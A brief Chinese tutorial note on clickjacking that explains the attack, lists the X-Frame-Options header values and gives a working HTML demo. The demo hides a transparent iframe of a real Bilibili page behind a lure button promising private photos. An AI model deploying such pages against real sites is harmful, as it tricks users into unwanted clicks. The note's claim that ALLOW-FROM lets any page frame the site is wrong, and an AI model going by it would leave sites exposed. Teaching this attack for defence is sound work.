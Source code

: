 ### clickjacking

点击劫持的字面的意思就是当我们点击网站的时候别不法分子拦截。

用户收到一个邮件，上面有一个播放键，一点播放键，就跳转到了美女在线发牌网站。

用户收到一个邮件，上面有一个播放键，一点播放键，就可能关注了某个网站。

- DENY：不让任何网页使用iframe加载我这个页面。

- SAMEORIGIN：只允许在相同域名（也就是我自己的网站）下使用iframe加载我这个页面。

- ALLOW-FROM origin：允许任何网页通过iframe加载我这个网页。

  

### 案例

```
<!DOCTYPE html>
<html>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<head>
    <title>点击劫持</title>
    <style>
        iframe {
            width: 1440px;
            height: 900px;
            position: absolute;
            top: -0px;
            left: -0px;
            z-index: 2;
            -moz-opacity: 0;
            opacity: 0;
            filter: alpha(opacity=0);
        }

        button {
            position: absolute;
            top: 138px;
            left: 1128px;
            z-index: 1;
            width: 120px;
            height: 40px;
        }
    </style>
</head>
<body>
<button>点我查看私房照</button>
<img style="width: 1440px;height: 900px"
     src="https://ss0.bdstatic.com/70cFuHSh_Q1YnxGkpoWK1HF6hhy/it/u=299762812,1164673512&fm=26&gp=0.jpg">
<iframe src="https://www.bilibili.com/read/cv4161225?from=1002&spm_id_from=333.851.b_7265706f7274466972737431.3"
        scrolling="no"></iframe>
</body>
</html>
```

